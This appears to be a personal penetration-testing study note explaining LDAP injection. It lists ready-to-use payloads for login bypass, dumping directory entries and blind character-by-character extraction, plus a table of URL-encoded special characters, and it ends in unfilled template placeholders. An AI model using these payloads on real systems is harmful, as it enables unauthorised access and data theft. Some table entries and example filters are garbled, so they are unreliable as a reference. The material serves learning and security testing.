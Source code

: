 # Description

LDAP Injection is an attack that exploits web applications that construct LDAP (Lightweight Directory Access Protocol) statements from user input. Similar to SQL injection, if the input is not properly sanitized, an attacker can modify the LDAP statement's structure to bypass authentication, alter permissions, or extract sensitive data from the directory.

# Command Syntax

The goal is to break out of the intended filter context and inject your own logic. Always URL-encode special characters when sending them in a request (e.g., `*` becomes `%2a`, `(` becomes `%28`).

**Authentication Bypass (Login Forms):**  
The most common test is on login forms. The typical backend filter is: `(&(USERNAME=INPUT_USER)(PASSWORD=INPUT_P))`

- **Always True Injection:**
    
    - **Username:** `*)(objectClass=*))%00`
        
    - **Password:** `anything`
        
    - **Resulting Filter:** `(&(USERNAME=*)(objectClass=*))%00)(PASSWORD=anything))`. The `%00` (null byte) often terminates the filter, ignoring the rest. The first part `(&(USERNAME=*)(objectClass=*))` is always true if any object exists.
        
- **Always True (Alternative):**
    
    - **Username:** `admin)(!(!(1=0))` or `admin)(|(1=0`
        
    - **Password:** `anything))(&(1=0`
        
    - **Resulting Filter:** `(&(USERNAME=admin)(!(!(1=0)))(PASSWORD=anything))(&(1=0))`. This uses logic to create a always true condition `(!(!(1=0))` and comments out the rest with a false clause `(&(1=0)`.
        
- **Wildcard Login:**
    
    - **Username:** `admin*`
        
    - **Password:** `*` (or any wildcard)
        
    - **Resulting Filter:** `(&(USERNAME=admin*)(PASSWORD=*))`. If the application allows wildcards, this might match the first `admin` account it finds.
        

**Information Disclosure (Search Pages):**  
Test on search fields (e.g., user lookup, product search). The goal is to reveal all entries or cause errors.

- **Return All Entries:**
    
    - **Input:** `*)`
        
    - **Resulting Filter:** `(SEARCHTERM=*))`. This may cause an error or return all objects if the original filter was `(SEARCHTERM=INPUT)`.
        
- **Return All Entries (Complex):**
    
    - **Input:** `*))(&(objectClass=*`
        
    - **Resulting Filter:** `(SEARCHTERM=*))(&(objectClass=*`)`. This closes the first filter and adds a new one that is always true` (objectClass=*)`.
        
- **Get all attributes:**
    
    - **Input:** `*)(cn=*`
        
    - **Resulting Filter:** `(SEARCHTERM=*)(cn=*))`. This might return entries that have any `cn` attribute, potentially revealing more data.
        

**Blind LDAP Injection:**  
When you don't see results but the application behaves differently (e.g., true vs. false responses).

- **Test for Blind:**
    
    - **Input (True):** `)(objectClass=user))`
        
    - **Input (False):** `)(objectClass=invalidClass))`
        
    - If the application's response (page content, timing, error) differs between these two inputs, it is vulnerable to blind injection.
        
- **Extracting data with Booleanization:**
    
    - You can extract data one character at a time by asking true/false questions.
        
    - **Example:** To get the first character of the `cn` attribute for a user:
        
        - `admin)((cn=a*)` -> If true, first char is 'a'.
            
        - `admin)((cn=b*)` -> If true, first char is 'b'. Continue until you find a match.

#### **3. Key Characters to Use in Tests**

| Character  | URL-Encoded | Purpose in LDAP Injection                                                |
| ---------- | ----------- | ------------------------------------------------------------------------ |
| **`*`**    | `%2a`       | Wildcard. Matches any value. Crucial for `always true` conditions.       |
| **`)`**    | `%29`       | Closes a filter. Essential for breaking out of the intended parentheses. |
| **`(`**    | `%28`       | Opens a new filter. Used to inject new conditions.                       |
| `**`       | `%7c`       | Logical OR operator. e.g., `((INJECTION_HERE))`.                         |
| **`&`**    | `%26`       | Logical AND operator. e.g., `(&(INJECTION_HERE))`.                       |
| **`!`**    | `%21`       | Logical NOT operator. e.g., `(!(condition))`.                            |
| **`\`**    | `%5c`       | Escape character. Can be used to bypass simple sanitization.             |
| **`/`**    | `%2f`       | `*`/`...` can be used in blind injection timing attacks.                 |
| **`~`**    | `%7e`       | Approximate match. Less common, but can be useful.                       |
| **`NULL`** | `%00`       | Null Byte. Often used to terminate the filter early, ignoring the rest.  |

# Common Flags / Options

-flag: Description of what this flag does

# Use Cases

When and why you would use this technique?

# Examples

Practical example from a lab machine or HTB.

```sh
example-command -flag target
```

# Related Notes

[[Link to a related atomic note]]

[[Link to a relevant MOC]]

# References

HackTricks

PayloadsAllTheThings